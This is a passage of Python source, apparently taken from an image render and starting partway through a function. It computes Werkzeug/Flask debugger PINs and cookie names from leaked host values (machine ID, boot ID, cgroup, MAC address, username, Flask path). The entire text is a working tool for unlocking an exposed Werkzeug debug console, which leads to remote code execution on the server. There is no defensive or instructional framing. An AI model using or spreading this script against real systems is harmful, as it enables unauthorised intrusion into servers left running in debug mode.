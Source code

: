 ```python
	uuid = str(int(mac_address.replace(":", ""),16))
	return uuid

def generate_pin(public_bits, private_bits):
	rv = None
	pin = None
	num = None
	hash = hashlib.sha1()
	for bit in itertools.chain(public_bits, private_bits):
		if not bit:
			continue
		if isinstance(bit, str):
			bit = bit.encode("utf-8")
		hash.update(bit)
	hash.update(b"cookiesalt")
	cookie_name = f"__wzd{hash.hexdigest()[:20]}"
	
	if num is None:
		hash.update(b"pinsalt")
	num = f"{int(hash.hexdigest(), 16):09d}"[:9]

	if rv is None:
		for group_size in 5,4,3:
			if len(num) % group_size == 0:
				rv = "-".join(
					num[x : x + group_size].rjust(group_size, "0")
					for x in range(0, len(num), group_size))
				break
		else:
			rv = num
	print(f"Public Bits : f{public_bits}")
	print(f"Pin code : {rv} | cookie name : {cookie_name}")

if __name__ == "__main__":
	env = dotenv.dotenv_values()
	machine_id = env.get("MACHINEID")
	boot_id = env.get("BOOTID")
	cgroup = env.get("CGROUP")
	username = env.get("USERNAME")
	flask_path = env.get("FLASKPATH")
	mac_address = env.get("DEVICEMACADDRESS")
	if env is None or \
	boot_id == "" or \
	cgroup == "" or \
	username == "" or \
	flask_path == "" or \
	mac_address == "":
		print("You must fill all the entries int he .env file.")
		exit(1)

	private_bits = [get_uuid(mac_address),generate_machine_id(machine_id, boot_id, cgroup)]

	print(private_bits)

	modnames = ["flask.app", "werkzeug.debug"]

	apps = ["Flask", "wsgi_app", "DebuggedApplication"]

	for modname in modnames:
		for app in apps:
			public_bits = [username, modname, app, flask_path]
			generate_pin(public_bits, private_bits)
```